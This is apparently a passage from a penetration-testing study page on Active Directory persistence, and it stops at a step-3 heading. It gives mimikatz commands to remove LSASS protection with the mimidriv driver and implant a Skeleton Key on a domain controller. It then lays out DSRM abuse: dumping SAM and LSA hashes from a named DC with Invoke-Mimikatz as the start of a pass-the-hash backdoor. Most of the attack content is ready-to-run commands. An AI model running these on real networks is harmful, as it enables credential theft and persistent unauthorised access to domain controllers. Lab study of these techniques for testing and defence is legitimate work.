 ### <span style="color:#F1C232">LSASS running as a protected process</span>
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```console
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

> The above would be very noisy in logs - Service installation (Kernel mode driver) 
{: .prompt-warning }

# <span style="color:lightblue">Directory Service Restore Mode (DSRM)</span>

* DSRM is Directory Services Restore Mode
* There is a local administrator on every DC called "Administrator" whose password is the DSRM password
* DSRM password (**SafeModePassword**) is required when a server is promoted to Domain Controller and it is rarely changed
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Extract the credentials from the SAM file from the DC
- [x] 2. Change the Logon Behavior for the DSRM account
- [x] 3. Pass The Hash of the DSRM administrator and logon

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Dump DSRM password (needs DA privs)</span>

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

### <span style="color:#F1C232">2. Compare the Administrator hash with the Administrator hash of below command</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

> If the NTML hash of the Administrator using the **/patch** is *diffrent* than the NTML hash of the Administrator using **DSRM dump** then it is the correct hash of the DSRM local Administrator
{: .prompt-tip }
### <span style="color:#F1C232">3. Add/Edit the Logon Behavior for the DSRM account</span>
